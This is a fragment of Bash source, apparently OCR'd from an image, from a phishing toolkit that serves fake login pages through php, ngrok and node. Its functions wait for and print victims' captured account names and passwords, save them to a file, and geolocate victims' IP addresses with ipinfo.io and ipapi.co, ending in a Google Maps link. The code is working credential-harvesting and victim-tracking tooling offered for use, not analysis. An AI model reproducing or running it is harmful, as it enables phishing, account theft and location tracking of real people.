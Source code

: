 
}

catch_cred() {

account=$(grep -o 'Account:.*' sites/$server/usernames.txt | cut -d " " -f2)
IFS=$'\n'
password=$(grep -o 'Pass:.*' sites/$server/usernames.txt | cut -d ":" -f2)
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Account:\e[0m\e[1;77m %s\n\e[0m" $account
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Password:\e[0m\e[1;77m %s\n\e[0m" $password
cat sites/$server/usernames.txt >> sites/$server/saved.usernames.txt
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Saved:\e[0m\e[1;77m sites/%s/saved.usernames.txt\e[0m\n" $server
killall -2 php > /dev/null 2>&1
killall -2 ngrok > /dev/null 2>&1
killall -2 node > /dev/null 2>&1
exit 1

}

getcredentials() {
echo ' '
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Waiting credentials ...\e[0m\n"
while [ true ]; do


if [[ -e "sites/$server/usernames.txt" ]]; then
printf "\n\e[1;93m[\e[0m*\e[1;93m]\e[0m\e[1;92m Credentials Found!\n"
catch_cred

fi
sleep 1
done 


}

catch_ip() {
touch sites/$server/saved.usernames.txt
ip=$(grep -a 'IP:' sites/$server/ip.txt | cut -d " " -f2 | tr -d '\r')
IFS=$'\n'
ua=$(grep 'User-Agent:' sites/$server/ip.txt | cut -d '"' -f2)
ipv4=`curl -s https://ipinfo.io/$ip/json | jq -r  '.ip'`
cn=`curl -s https://ipapi.co/$ip//json | jq -r  '.country_name'`
re=`curl -s https://ipapi.co/$ip//json | jq -r  '.region'`
ct=`curl -s https://ipapi.co/$ip//json | jq -r '.city'`
post=`curl -s https://ipapi.co/$ip//json | jq -r  '.postal'`
loc=`curl -s https://ipinfo.io/$ip/json | jq -r  '.loc'`
org=`curl -s https://ipinfo.io/$ip/json | jq -r  '.org'`
tz=`curl -s https://ipinfo.io/$ip/json | jq -r '.timezone'`
lat=`curl -s https://ipapi.co/$ip/json/ | jq -r '.latitude'`
lon=`curl -s https://ipapi.co/$ip/json/ | jq -r '.longitude'`

gm=`echo "https://www.google.com/maps/search/?api=1&query="$lat,$lon`
